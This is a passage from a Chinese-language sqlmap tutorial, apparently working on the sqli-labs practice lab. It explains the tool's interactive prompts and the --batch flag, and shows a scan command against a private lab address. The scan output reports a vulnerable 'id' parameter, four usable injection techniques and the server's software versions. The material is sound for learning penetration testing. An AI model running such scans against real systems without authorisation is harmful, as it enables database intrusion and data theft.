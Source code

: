 sqlmap执行过程会出现交互过程，供用户选择参数，可以执行回车，使用默认参数

过程的交互提示类似：

```plaintext
# 检测到后台是mysql，是否跳过其他类型数据库的测试
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
# 是否跳过其他类型的注入测试
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
# 检测到GET参数'id'存在注入漏洞，是否跳过测试其他参数
# 也是关键提示，提示是否检测到当前参数存在sql注入漏洞
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
```

你也可以使用`--batch`参数，跳过交互过程，过程会全部使用默认参数。

```bash
sqlmap -u "http://192.168.6.112:8080/Less-1/?id=1" --batch
```

sqlmap的结尾有这样的内容，意思是，这个注入点可以使用`联合注入，报错注入，时间盲注，布尔盲注`四种方式


![2](/medias/sqlmap/2.png)

同时，末尾还给出了探测到的信息

```plaintext
[13:39:34] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.5.9, Apache 2.4.7
back-end DBMS: MySQL >= 5.5
```
